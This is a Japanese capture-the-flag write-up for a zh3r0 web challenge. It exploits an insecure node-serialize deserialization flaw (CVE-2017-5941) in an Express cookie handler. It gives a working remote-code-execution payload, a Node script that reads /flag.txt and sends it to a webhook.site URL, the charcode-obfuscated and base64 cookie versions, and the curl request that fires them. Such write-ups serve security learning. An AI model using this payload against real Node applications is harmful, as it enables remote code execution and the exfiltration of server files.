

# Writeup

* http://web.zh3r0.cf:6666

にアクセスする。ポート6666は`ERR_UNSAFE_PORT`なので、

```
chrome.exe --explicitly-allowed-ports=6666
```

でChromeを起動する。ページ上では特に情報を得られなかったので、ソースコードを読む。

```js
app.post('/guest', function(req, res) {
   if (req.cookies.guest) {
   	var str = new Buffer(req.cookies.guest, 'base64').toString();
   	var obj = serialize.unserialize(str);
   	if (obj.username) {
     	res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
	 var username = req.body.username 
	 var country = req.body.country 
	 var city = req.body.city
	 var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
	 res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
 ```

* http://web.zh3r0.cf:6666/guest

にPOSTリクエストするとCookieがセットされる。

パラメータなしでPOSTすると、以下のようになる。

```bash
$ curl -X POST http://web.zh3r0.cf:6666/guest --verbose
*   Trying 35.200.166.215:6666...
* TCP_NODELAY set
* Connected to web.zh3r0.cf (35.200.166.215) port 6666 (#0)
> POST /guest HTTP/1.1
> Host: web.zh3r0.cf:6666
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Set-Cookie: guest=eyJ1c2VybmFtZSI6InVuZGVmaW5lZCIsImNvdW50cnkiOiJ1bmRlZmluZWQiLCJjaXR5IjoidW5kZWZpbmVkIn0%3D; Max-Age=900; Path=/; Expires=Fri, 04 Jun 2021 14:25:42 GMT; HttpOnly
< Content-Type: text/html; charset=utf-8
< Content-Length: 6
< ETag: W/"6-aTQsXDnlrl8Ad67MMsD4GBH7gZM"
< Date: Fri, 04 Jun 2021 14:10:42 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
<
* Connection #0 to host web.zh3r0.cf left intact
Hello!%
```

Cookieの値は`eyJ1c2VybmFtZSI6InVuZGVmaW5lZCIsImNvdW50cnkiOiJ1bmRlZmluZWQiLCJjaXR5IjoidW5kZWZpbmVkIn0`であり、Base64デコードすると、`{"username":"undefined","country":"undefined","city":"undefined"}`となっている。

また、Cookieを入れた状態でPOSTすると以下のようになる。

```bash
$ curl -X POST http://web.zh3r0.cf:6666/guest -H 'Cookie: guest=eyJ1c2VybmFtZSI6InVuZGVmaW5lZCIsImNvdW50cnkiOiJ1bmRlZmlu
ZWQiLCJjaXR5IjoidW5kZWZpbmVkIn0%3D;' --verbose
*   Trying 35.200.166.215:6666...
* TCP_NODELAY set
* Connected to web.zh3r0.cf (35.200.166.215) port 6666 (#0)
> POST /guest HTTP/1.1
> Host: web.zh3r0.cf:6666
> User-Agent: curl/7.68.0
> Accept: */*
> Cookie: guest=eyJ1c2VybmFtZSI6InVuZGVmaW5lZCIsImNvdW50cnkiOiJ1bmRlZmluZWQiLCJjaXR5IjoidW5kZWZpbmVkIn0%3D;
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 107
< ETag: W/"6b-mcPBCXUs6bskleLZQZg4Tt74gBA"
< Date: Fri, 04 Jun 2021 14:19:54 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
<
* Connection #0 to host web.zh3r0.cf left intact
Hello undefined. This page is currently under maintenance for Guest users. Please go back to the login page%
```

JSON形式の`username`が表示されていることが確認できる。

`username`の値を使ってXSSしてみる。

Dockerfileから、flagの内容が`/flag.txt`にあることが分かっているので、

```
{"username":"<script>document.write('/flag.txt');</script>"}
```

を送りたい。しかし`<`や`'`などはHTMLエスケープで`&lt;`や`&#39`となってしまう・・・。

何か別の方法を探したところ、**`CVE-2017-5941`**　を発見。コードを見た感じ、ほぼそのままなので使えそう。

以下のようなJSONを`unserialize()`させると、Javascriptが即実行されるらしい。(jsonのkeyは何でもよい)

```json
{"rce":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode( #javascript ))}()"}
```

Exploit用のスクリプトを作る。`console.log`してもこちら側には表示されないので、hookする。

```js
const https = require('https');
const fs = require('fs');

var uri = 'https://webhook.site/d709442c-232a-41d2-929d-2371e1f4d0cf/?q=';

var data = fs.readFileSync('/flag.txt');
uri += data.toString();

const req = https.request(uri, (res) => {
    res.on('data', (chunk) => {
        console.log(`${chunk}`);
    });
})

req.on('error', (e) => {
  console.error(`${e.message}`);
});

req.end();
```

Exploit用のJSONに変換する。

```json
{"rce":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(10,99,111,110,115,116,32,104,116,116,112,115,32,61,32,114,101,113,117,105,114,101,40,39,104,116,116,112,115,39,41,59,10,99,111,110,115,116,32,102,115,32,61,32,114,101,113,117,105,114,101,40,39,102,115,39,41,59,10,10,118,97,114,32,117,114,105,32,61,32,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,100,55,48,57,52,52,50,99,45,50,51,50,97,45,52,49,100,50,45,57,50,57,100,45,50,51,55,49,101,49,102,52,100,48,99,102,47,63,113,61,39,59,10,10,118,97,114,32,100,97,116,97,32,61,32,102,115,46,114,101,97,100,70,105,108,101,83,121,110,99,40,39,47,102,108,97,103,46,116,120,116,39,41,59,10,117,114,105,32,43,61,32,100,97,116,97,46,116,111,83,116,114,105,110,103,40,41,59,10,10,99,111,110,115,116,32,114,101,113,32,61,32,104,116,116,112,115,46,114,101,113,117,101,115,116,40,117,114,105,44,32,40,114,101,115,41,32,61,62,32,123,10,32,32,32,32,114,101,115,46,111,110,40,39,100,97,116,97,39,44,32,40,99,104,117,110,107,41,32,61,62,32,123,10,32,32,32,32,32,32,32,32,99,111,110,115,111,108,101,46,108,111,103,40,96,36,123,99,104,117,110,107,125,96,41,59,10,32,32,32,32,125,41,59,10,125,41,10,10,114,101,113,46,111,110,40,39,101,114,114,111,114,39,44,32,40,101,41,32,61,62,32,123,10,32,32,99,111,110,115,111,108,101,46,101,114,114,111,114,40,96,36,123,101,46,109,101,115,115,97,103,101,125,96,41,59,10,125,41,59,10,10,114,101,113,46,101,110,100,40,41,59,10))}()"}
```

Base64変換してPOSTする。

```bash
$ curl -X POST http://web.zh3r0.cf:6666/guest -H 'Cookie: guest=eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXsgZXZhbChTdHJpbmcuZnJvbUNoYXJDb2RlKDEwLDk5LDExMSwxMTAsMTE1LDExNiwzMiwxMDQsMTE2LDExNiwxMTIsMTE1LDMyLDYxLDMyLDExNCwxMDEsMTEzLDExNywxMDUsMTE0LDEwMSw0MCwzOSwxMDQsMTE2LDExNiwxMTIsMTE1LDM5LDQxLDU5LDEwLDk5LDExMSwxMTAsMTE1LDExNiwzMiwxMDIsMTE1LDMyLDYxLDMyLDExNCwxMDEsMTEzLDExNywxMDUsMTE0LDEwMSw0MCwzOSwxMDIsMTE1LDM5LDQxLDU5LDEwLDEwLDExOCw5NywxMTQsMzIsMTE3LDExNCwxMDUsMzIsNjEsMzIsMzksMTA0LDExNiwxMTYsMTEyLDExNSw1OCw0Nyw0NywxMTksMTAxLDk4LDEwNCwxMTEsMTExLDEwNyw0NiwxMTUsMTA1LDExNiwxMDEsNDcsMTAwLDU1LDQ4LDU3LDUyLDUyLDUwLDk5LDQ1LDUwLDUxLDUwLDk3LDQ1LDUyLDQ5LDEwMCw1MCw0NSw1Nyw1MCw1NywxMDAsNDUsNTAsNTEsNTUsNDksMTAxLDQ5LDEwMiw1MiwxMDAsNDgsOTksMTAyLDQ3LDYzLDExMyw2MSwzOSw1OSwxMCwxMCwxMTgsOTcsMTE0LDMyLDEwMCw5NywxMTYsOTcsMzIsNjEsMzIsMTAyLDExNSw0NiwxMTQsMTAxLDk3LDEwMCw3MCwxMDUsMTA4LDEwMSw4MywxMjEsMTEwLDk5LDQwLDM5LDQ3LDEwMiwxMDgsOTcsMTAzLDQ2LDExNiwxMjAsMTE2LDM5LDQxLDU5LDEwLDExNywxMTQsMTA1LDMyLDQzLDYxLDMyLDEwMCw5NywxMTYsOTcsNDYsMTE2LDExMSw4MywxMTYsMTE0LDEwNSwxMTAsMTAzLDQwLDQxLDU5LDEwLDEwLDk5LDExMSwxMTAsMTE1LDExNiwzMiwxMTQsMTAxLDExMywzMiw2MSwzMiwxMDQsMTE2LDExNiwxMTIsMTE1LDQ2LDExNCwxMDEsMTEzLDExNywxMDEsMTE1LDExNiw0MCwxMTcsMTE0LDEwNSw0NCwzMiw0MCwxMTQsMTAxLDExNSw0MSwzMiw2MSw2MiwzMiwxMjMsMTAsMzIsMzIsMzIsMzIsMTE0LDEwMSwxMTUsNDYsMTExLDExMCw0MCwzOSwxMDAsOTcsMTE2LDk3LDM5LDQ0LDMyLDQwLDk5LDEwNCwxMTcsMTEwLDEwNyw0MSwzMiw2MSw2MiwzMiwxMjMsMTAsMzIsMzIsMzIsMzIsMzIsMzIsMzIsMzIsOTksMTExLDExMCwxMTUsMTExLDEwOCwxMDEsNDYsMTA4LDExMSwxMDMsNDAsOTYsMzYsMTIzLDk5LDEwNCwxMTcsMTEwLDEwNywxMjUsOTYsNDEsNTksMTAsMzIsMzIsMzIsMzIsMTI1LDQxLDU5LDEwLDEyNSw0MSwxMCwxMCwxMTQsMTAxLDExMyw0NiwxMTEsMTEwLDQwLDM5LDEwMSwxMTQsMTE0LDExMSwxMTQsMzksNDQsMzIsNDAsMTAxLDQxLDMyLDYxLDYyLDMyLDEyMywxMCwzMiwzMiw5OSwxMTEsMTEwLDExNSwxMTEsMTA4LDEwMSw0NiwxMDEsMTE0LDExNCwxMTEsMTE0LDQwLDk2LDM2LDEyMywxMDEsNDYsMTA5LDEwMSwxMTUsMTE1LDk3LDEwMywxMDEsMTI1LDk2LDQxLDU5LDEwLDEyNSw0MSw1OSwxMCwxMCwxMTQsMTAxLDExMyw0NiwxMDEsMTEwLDEwMCw0MCw0MSw1OSwxMCkpfSgpIn0=;' --verbose
*   Trying 35.200.166.215:6666...
* TCP_NODELAY set
* Connected to web.zh3r0.cf (35.200.166.215) port 6666 (#0)
> POST /guest HTTP/1.1
> Host: web.zh3r0.cf:6666
> User-Agent: curl/7.68.0
> Accept: */*
> Cookie: guest=eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXsgZXZhbChTdHJpbmcuZnJvbUNoYXJDb2RlKDEwLDk5LDExMSwxMTAsMTE1LDExNiwzMiwxMDQsMTE2LDExNiwxMTIsMTE1LDMyLDYxLDMyLDExNCwxMDEsMTEzLDExNywxMDUsMTE0LDEwMSw0MCwzOSwxMDQsMTE2LDExNiwxMTIsMTE1LDM5LDQxLDU5LDEwLDk5LDExMSwxMTAsMTE1LDExNiwzMiwxMDIsMTE1LDMyLDYxLDMyLDExNCwxMDEsMTEzLDExNywxMDUsMTE0LDEwMSw0MCwzOSwxMDIsMTE1LDM5LDQxLDU5LDEwLDEwLDExOCw5NywxMTQsMzIsMTE3LDExNCwxMDUsMzIsNjEsMzIsMzksMTA0LDExNiwxMTYsMTEyLDExNSw1OCw0Nyw0NywxMTksMTAxLDk4LDEwNCwxMTEsMTExLDEwNyw0NiwxMTUsMTA1LDExNiwxMDEsNDcsMTAwLDU1LDQ4LDU3LDUyLDUyLDUwLDk5LDQ1LDUwLDUxLDUwLDk3LDQ1LDUyLDQ5LDEwMCw1MCw0NSw1Nyw1MCw1NywxMDAsNDUsNTAsNTEsNTUsNDksMTAxLDQ5LDEwMiw1MiwxMDAsNDgsOTksMTAyLDQ3LDYzLDExMyw2MSwzOSw1OSwxMCwxMCwxMTgsOTcsMTE0LDMyLDEwMCw5NywxMTYsOTcsMzIsNjEsMzIsMTAyLDExNSw0NiwxMTQsMTAxLDk3LDEwMCw3MCwxMDUsMTA4LDEwMSw4MywxMjEsMTEwLDk5LDQwLDM5LDQ3LDEwMiwxMDgsOTcsMTAzLDQ2LDExNiwxMjAsMTE2LDM5LDQxLDU5LDEwLDExNywxMTQsMTA1LDMyLDQzLDYxLDMyLDEwMCw5NywxMTYsOTcsNDYsMTE2LDExMSw4MywxMTYsMTE0LDEwNSwxMTAsMTAzLDQwLDQxLDU5LDEwLDEwLDk5LDExMSwxMTAsMTE1LDExNiwzMiwxMTQsMTAxLDExMywzMiw2MSwzMiwxMDQsMTE2LDExNiwxMTIsMTE1LDQ2LDExNCwxMDEsMTEzLDExNywxMDEsMTE1LDExNiw0MCwxMTcsMTE0LDEwNSw0NCwzMiw0MCwxMTQsMTAxLDExNSw0MSwzMiw2MSw2MiwzMiwxMjMsMTAsMzIsMzIsMzIsMzIsMTE0LDEwMSwxMTUsNDYsMTExLDExMCw0MCwzOSwxMDAsOTcsMTE2LDk3LDM5LDQ0LDMyLDQwLDk5LDEwNCwxMTcsMTEwLDEwNyw0MSwzMiw2MSw2MiwzMiwxMjMsMTAsMzIsMzIsMzIsMzIsMzIsMzIsMzIsMzIsOTksMTExLDExMCwxMTUsMTExLDEwOCwxMDEsNDYsMTA4LDExMSwxMDMsNDAsOTYsMzYsMTIzLDk5LDEwNCwxMTcsMTEwLDEwNywxMjUsOTYsNDEsNTksMTAsMzIsMzIsMzIsMzIsMTI1LDQxLDU5LDEwLDEyNSw0MSwxMCwxMCwxMTQsMTAxLDExMyw0NiwxMTEsMTEwLDQwLDM5LDEwMSwxMTQsMTE0LDExMSwxMTQsMzksNDQsMzIsNDAsMTAxLDQxLDMyLDYxLDYyLDMyLDEyMywxMCwzMiwzMiw5OSwxMTEsMTEwLDExNSwxMTEsMTA4LDEwMSw0NiwxMDEsMTE0LDExNCwxMTEsMTE0LDQwLDk2LDM2LDEyMywxMDEsNDYsMTA5LDEwMSwxMTUsMTE1LDk3LDEwMywxMDEsMTI1LDk2LDQxLDU5LDEwLDEyNSw0MSw1OSwxMCwxMCwxMTQsMTAxLDExMyw0NiwxMDEsMTEwLDEwMCw0MCw0MSw1OSwxMCkpfSgpIn0=;
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 6
< ETag: W/"6-aTQsXDnlrl8Ad67MMsD4GBH7gZM"
< Date: Sat, 05 Jun 2021 04:05:09 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
<
* Connection #0 to host web.zh3r0.cf left intact
Hello!%
```

flagの中身を取ることができた。



<!-- zh3r0{4ll_y0u_h4d_t0_d0_w4s_m0v3_th3_0bjc3ts_3mper0r} -->
